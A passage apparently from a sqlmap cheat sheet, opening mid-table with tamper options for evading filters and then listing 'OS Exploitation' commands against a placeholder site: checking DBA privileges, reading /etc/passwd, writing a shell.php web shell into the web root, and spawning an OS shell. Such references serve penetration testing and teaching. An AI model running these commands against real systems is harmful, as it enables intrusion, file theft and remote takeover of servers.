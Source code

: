 | symboliclogical             | Replaces AND and OR logical operators with their symbolic counterparts (&& and ||)                             |
| versionedkeywords           | Encloses each non-function keyword with (MySQL) versioned comment                                               |
| versionedmorekeywords       | Encloses each keyword with (MySQL) versioned comment                                                            |

### OS Exploitation

**Checking for DBA Privileges**
````
$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
````

**File Read/Write**
````
$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
````

**OS Command Execution**
````
$ sqlmap -u "http://www.example.com/?id=1" --os-shell
````
